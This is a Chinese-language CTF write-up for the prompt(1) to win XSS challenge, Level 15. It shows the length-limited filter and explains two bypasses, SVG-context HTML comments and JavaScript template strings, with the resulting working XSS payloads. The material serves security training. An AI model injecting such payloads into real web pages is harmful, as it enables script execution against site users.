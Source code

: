 ## [[prompt(1) to win](http://prompt.ml)] [[Level F - Length2](http://prompt.ml/15)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3730/)]

------

## 题目

```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

## 解题报告

这题与 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 十分相似，区别在于：

- 长度限制从 12 放宽到 15
- `*` 被过滤，导致 JS 注释 `/* */` 不可用


------------

### 解法一：SVG 注释

换言之，要解决这题，就需要**使用另一种方法实现多行注释**。我第一时间想到的就是 HTML 注释 `<!--   -->` 。

但是这题在 HTML 中穿插着 JS 代码，而在默认 HTML 语境下， HTML 注释是没办法在 JS 代码中使用的。

为了解决这个问题，可以借助 `<svg>` 标签强制解析 XML 语法的特点：

在 `<svg>` 标签中若包含 JS 代码，即使使用 HTML 注释 `<!--   -->` 也是可以被成功解析的。

例如：

```html
<svg>
    <!-- xxxx -->
    <script>
        <!-- yyyy -->
        alert(1)
        <!-- zzzz -->
        alert(2)
    </script>
</svg>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/01.png)


------------

那么这题的答案的呼之欲出了，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><svg><!--    " data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt<!--  " data-comment='{"id":2}'></p>
<p class="comment" title="-->(1)</script>" data-comment='{"id":3}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/02.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： `"><svg><!--#--><script><!--#-->prompt<!--#-->(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/03.png)


------------

### 解法二：模板字符串

这题其实还有另一种解法，可以使用 [模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings) 解题。

在 JS 中，可以使用 倒引号（或反引号）包围字符串，字符串中再以 `${expression}` 方式入表达式，这样表达式就会被执行，例如：

```javascript
<script>
    `<a="1" b='2'> ${prompt(1)} by exp`
</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/04.png)

回到这题，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><script>`    " data-comment='{"id":0}'></p>
<p class="comment" title="${prompt(1)}   " data-comment='{"id":1}'></p>
<p class="comment" title="`</script>     " data-comment='{"id":2}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/05.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： 

```html
"><script>`#${prompt(1)}#`</script>
```

> 注：这个 payload 也可用于 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/06.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

